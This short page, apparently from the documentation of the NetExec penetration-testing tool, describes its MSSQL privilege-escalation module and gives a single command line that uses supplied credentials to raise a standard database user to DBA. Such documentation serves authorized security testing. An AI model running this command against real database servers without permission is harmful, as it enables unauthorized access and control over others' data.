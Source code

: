 ```yaml
---
description: Module to privesc from standard user to DBA
---
```


# MSSQL Privesc

```
nxc mssql <ip> -u user -p password -M mssql_priv
```
